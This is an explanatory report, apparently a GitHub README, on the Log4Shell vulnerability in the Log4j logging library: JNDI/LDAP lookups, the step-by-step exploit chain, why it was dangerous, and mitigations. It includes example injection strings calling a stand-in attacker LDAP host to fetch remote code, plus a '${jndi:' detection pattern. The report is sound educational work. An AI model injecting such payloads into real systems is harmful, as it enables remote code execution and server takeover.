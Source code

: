 # Log4Shell Attack (CVE-2021-44228)-Technical Report

A detailed explanation of the Log4Shell attack (CVE-2021-44228), broken down for clarity.

## What is the Log4j Attack (Log4Shell)?

The **Log4j attack**, officially known as **Log4Shell** (CVE-2021-44228), was a critical, zero-day vulnerability in the ubiquitous **Log4j** Java logging library. Discovered and publicly disclosed in December 2021, it is considered one of the most severe cybersecurity vulnerabilities ever due to its ease of exploitation, widespread impact, and the potential for complete system takeover.

At its core, the vulnerability allowed an attacker to remotely execute any code of their choice on a server or application that used a vulnerable version of Log4j. This could lead to data theft, ransomware deployment, unauthorized access, and total compromise of the system.

---

## 1. The Culprit: What is Log4j?

To understand the attack, you must first understand the tool.

- **Log4j** is an open-source **logging utility** developed by the Apache Software Foundation.
- It is written in Java and is used by countless applications, websites, and services to record events—like errors, user actions, and system status—into log files for later review.
- Its popularity stems from its reliability and flexibility. It's a fundamental building block of the internet, used in everything from enterprise software (like VMware, Salesforce) to popular games (like Minecraft) and cloud services.

---

## 2. The Technical Heart of the Vulnerability: JNDI and LDAP

The flaw was not in the act of logging itself, but in a specific **feature** of Log4j that few developers knew about or used.

**Key Concepts:**

- **JNDI (Java Naming and Directory Interface):** A Java API that allows applications to look up (fetch) data and resources (like objects) from external directories using a name. Think of it like a phonebook for software components.
- **LDAP (Lightweight Directory Access Protocol):** A common protocol used for accessing and maintaining distributed directory information services (like Microsoft Active Directory). It's one of the services JNDI can talk to.
- **Lookups:** Log4j supports a feature called "lookups," which allow it to add dynamic, external information into log messages. For example, it can look up and insert environment variables.

**The Fatal Flaw:**

The vulnerability existed because Log4j's lookups were not restricted. An attacker could craft a **malicious string** that, when logged by a vulnerable application, would force Log4j to use JNDI to fetch a remote, attacker-controlled Java object and execute it.

---

## 3. How the Attack Works: Step-by-Step

Here’s a simplified breakdown of the exploit chain:

1. **Craft the Malicious Payload:** An attacker creates a special string that looks like this:
   ```${jndi:ldap://evil-attacker-server.com:1234/Exploit}```

2. **Trigger the Log Entry:** The attacker finds a way to get this string processed by the vulnerable application. This is shockingly easy. The string can be submitted through **any user-input field** that gets logged. Common examples include:
   - A search box on a website
   - An HTTP header (like `User-Agent` or `X-Forwarded-For`)
   - A username in a login form
   - A chat message in a game (this is how it was first discovered in Minecraft)

3. **The Application Logs It:** The application, doing its normal job, receives this string and passes it to Log4j to be written to the log file.

4. **Log4j Interprets the Lookup:** Log4j sees the `${jndi:...}` syntax and interprets it as a command. It connects to the attacker's server (`evil-attacker-server.com`) via the LDAP protocol.

5. **The Attacker's Server Responds:** The malicious LDAP server responds with a reference to a remote Java class file (`Exploit.class`) hosted elsewhere, perhaps on a simple HTTP server.

6. **The Application Fetches and Executes the Payload:** The vulnerable application fetches this malicious `Exploit.class` file and **executes it automatically**.

7. **Complete Compromise:** The executed code runs with the same permissions as the main application. This gives the attacker a foothold on the server, allowing them to:
   - Install malware or ransomware.
   - Steal sensitive data.
   - Use the server as a pivot to attack other internal systems.
   - Launch cryptocurrency miners.

---

## 4. Why Was It So Dangerous?

1. **Ubiquity:** Log4j is embedded in tens of thousands of applications and services across the globe. The potential attack surface was massive.
2. **Ease of Exploitation:** Attackers didn't need sophisticated skills or special access. They just needed to send a simple string. Automated scanners began exploiting it within hours of its disclosure.
3. **Difficulty in Patching:** Because Log4j is a *library* buried deep within other software's code, many companies didn't even know they were using it. Identifying all vulnerable systems was a monumental task.
4. **Multiple Attack Vectors:** Any data that could be logged was a potential entry point, making it very hard to defend against with traditional firewalls or input filters.

---

## 5. Mitigation and Response

The response was a global, coordinated effort by cybersecurity teams. Mitigation strategies included:

1. **Patching (The Primary Solution):** The Apache Foundation released urgent patches. Organizations were advised to immediately update Log4j to version **2.17.1** or later.
2. **Mitigation Steps (If Patching Wasn't Immediate):**
   - Setting the `LOG4J_FORMAT_MSG_NO_LOOKUPS` environment variable to `true`.
   - Removing the `JndiLookup` class from the Log4j jar file.
3. **Network Monitoring:** Security teams deployed rules in Intrusion Detection/Prevention Systems (IDS/IPS) to block traffic containing the tell-tale `${jndi:` pattern.
4. **WAF (Web Application Firewall) Rules:** WAFs were quickly updated to filter out requests containing JNDI lookup strings.

---

## Summary (In a Nutshell)

| Aspect | Explanation |
| :--- | :--- |
| **What was it?** | A critical Remote Code Execution (RCE) vulnerability in the Log4j logging library. |
| **Official Name** | **CVE-2021-44228** (aka **Log4Shell**) |
| **How did it work?** | By tricking a vulnerable application into logging a special string `${jndi:ldap://attacker.com/}`, which forced Log4j to fetch and execute malicious code from an attacker-controlled server. |
| **Why was it bad?** | Extremely easy to exploit, affected a huge percentage of the internet, and was difficult to find and patch everywhere. |
| **The Lesson** | It highlighted the critical risks hidden within the software supply chain—a single flaw in a common, open-source library can threaten the entire digital ecosystem. It forced a massive shift towards Software Bill of Materials (SBOM) to improve transparency. |